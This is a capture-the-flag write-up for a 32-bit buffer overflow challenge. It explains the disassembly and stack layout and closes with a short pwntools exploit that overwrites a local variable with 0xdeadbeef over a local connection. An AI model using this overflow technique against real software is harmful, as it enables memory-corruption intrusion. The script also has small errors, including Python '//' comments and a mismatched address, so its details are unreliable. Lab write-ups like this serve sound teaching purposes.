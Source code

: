## BOF 2 Writeup
The first step in completing any binary challenge is to first run the program and see what it does. I ran it tried getting a segmentation fault by filling the buffer with a ton of A's and tried empty inputs.

Then we open up the assembly in nano after using objdump to get an idea of the program layout and where we should set our break points in gdb and perform the static analysis. This problem can be easily solved solely through static analysis; which for this write up we will focus on.

Looking through main there are a few details that catch my eye in this block.

     80484b9:       83 ec 54                sub    esp,0x54
     80484bc:       c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
     80484c3:       83 ec 08                sub    esp,0x8

The first line you see that it subtracts 0x54 (84 bytes) from esp to create room for variables. Then we create a variable at the address of ebp-0xc (12 bytes) and store the value of 0. *Make sure to keep track of the stack, it helps to physically draw it as you go sometimes.* It then subtracts 0x8 (8 bytes) from esp, which in this problem will not matter to us.

    80484c6:       8d 45 b4                lea    eax,[ebp-0x4c]
    80484c9:       50                      push   eax
    80484ca:       68 c0 85 04 08          push   0x80485c0
    80484cf:       e8 cc fe ff ff          call   80483a0 <isoc99_scanf@plt>

The next block of code to jump out should be the scanf function and the parameters it calls that precede it. The first line loads in the address of ebp-0x4c into the eax register and then pushes eax to the top of the stack which indicated that it is being used as a parameter to scanf. The third line is pushing a second parameter onto the stack, if in GDB you can use `x 0x80456c0` to find the value of that address which turns out to be `%s`. Then finally the function is called with the parameters and thus the string we input into the buffer gets stored in the address of ebp-0x4c.

Since this is a buffer overflow problem we can expect to find some sort of value for us to overwrite, meaning there is an address above [epb-0x4c] that we need to overflow.

    80484d7:       81 7d f4 ef be ad de    cmp    DWORD PTR [ebp-0xc],0xdeadbeef
    80484de:       74 1a                   je     80484fa <main+0x4f>

Here is the compare we want to make true, it compares the value in the address of [ebp-0xc] to 0xdeadbeef and jumps if it is equal.

|  address    |   Value     |
|-------------|-------------|
| ebp - 0x5c 	| junk value 	|
|  8 bytes    |            	|
| ebp - 0x4c 	| scan       	|
|  64 bytes   |            	|
| ebp - 0xC  	| 0          	|
|   12 bytes  |            	|
| ebp        	|            	|

With a buffer overflow we need to overwrite 0xC with the value 0xdeadbeef, in order to do that we need to write a buffer to fill the values between 0x4c and 0xC. By looking at the table you can see that is exactly 64 bytes then put 0xdeadbeef, thus we can now begin constructing a payload.

Here is our exploit:

    from pwn import *

    conn = remote('127.0.0.1', 6666)

    payload = 64 * 'a'  // Fill the buffer of 64 bytes to each 0xC
    payload += p32(0xdeadbeef) // Append 0xdeadbeef using little endian with p32

    conn.send(payload)  // Send payload over the connection
    conn.interactive() // Cool fancy shell function

Then you have pwned bof2! Get better.

